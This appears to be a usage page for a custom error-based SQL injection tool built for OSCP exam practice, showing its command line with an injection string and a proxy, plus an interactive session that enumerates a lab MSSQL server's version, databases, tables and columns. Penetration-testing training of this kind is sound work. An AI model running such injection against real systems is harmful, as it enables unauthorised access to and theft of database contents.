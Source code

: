 #### Use case

    This module is for error based SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

    #### Sample module wesqli
    wesqli -rh 10.11.1.229 -if burp.txt -t "1'" -sr -hp 127.0.0.1:8080 -o "DESC"
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 1
    Server name: MAIL\SQLEXPRESS
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 2
    Database version: Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) <br>    Aug 22 2017 17:04:49 <br>       Copyright (C) 2017 Microsoft Corporation<br>        Express Edition (64-bit) on Windows Server 2016 Standard 10.0 &lt;X64&gt; (Build 14393: ) (Hypervisor)<br>
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 3
    Current database name: newsletter
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 4
    Databases:
    tempdb
    newsletter
    msdb
    model
    master
    archive

    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 5
    Enter a database name: newsletter
    Tables in newsletter:
    users

    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 6
    Enter a database name: newsletter
    Enter a table name: users
    Columns in newsletter.users:
    username
    user_id
    email
